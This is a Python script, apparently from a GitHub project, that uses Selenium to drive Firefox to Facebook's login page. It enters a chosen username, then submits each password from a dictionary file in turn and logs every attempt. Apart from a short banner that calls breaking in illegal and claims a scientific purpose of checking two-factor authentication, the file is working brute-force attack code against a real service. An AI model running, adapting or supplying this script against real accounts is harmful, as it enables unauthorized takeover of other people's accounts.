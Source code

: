 from selenium import webdriver
import time


## Author = [Przemysław Szmaj]
## GitHub = https://github.com/PSZMAJ
## YouTube = https://www.youtube.com/channel/UCewT7Lr5f6LWvqSPXm0JKRw
print("****************************************************************************************************")
print("BREAKING IN IS ILLEGAL!/ WŁAMYWANIE SIĘ JEST NIELEGALNE!")
print("The project was created for a scientific purpose, to check u2f operation)")
print("Projekt powstał w celu naukowym, mającym sprawdzenie działania uwierzytelniania dwu/wieloetapowego.")
print("****************************************************************************************************")
print("")
print("")
print("")
login = input('Please eneter login: ')
browser = webdriver.Firefox()
browser.get('https://www.facebook.com/login.php')

    
class Attack:

    
    def addlogin(self):
    # locate xpath and send login.
        time.sleep(2)
        self.button_cookie = browser.find_element_by_id('u_0_f')
        time.sleep(0.5)
        self.button_cookie.click()
        self.button_cookie_accept = browser.find_element_by_id('u_0_j')
        time.sleep(0.5)
        self.button_cookie_accept.click()
        time.sleep(2)
        self.button_username = browser.find_element_by_xpath('//*[@id="email"]')
        self.button_username.click()
        time.sleep(0.5)
        self.button_username.send_keys(login)
        time.sleep(0.5)
        
    def FbBruteForceDictionary(self):
    # this function has a special task:
    # 1. Locate xpath form "password"
    # 2. Send key from dictionary.
    # 3. Locate xpath button login and click.
    
 
        login_attempt = 0
        with open("dict.txt", "r") as file:
            lines = file.readlines()
        for line in lines:
            self.button_password = browser.find_element_by_xpath('//*[@id="pass"]')
            self.button_password.click()
            time.sleep(2)
            self.button_password.send_keys(line)
                
            self.button_login = browser.find_element_by_xpath('//*[@id="loginbutton"]')
            self.button_login.click()
            login_attempt = login_attempt + 1
            print("____________________________________________________________")
            print(' Login attempt', login_attempt, ' with key/password : ', line )
            print("____________________________________________________________")
        
p = Attack()
p.addlogin()
p.FbBruteForceDictionary()

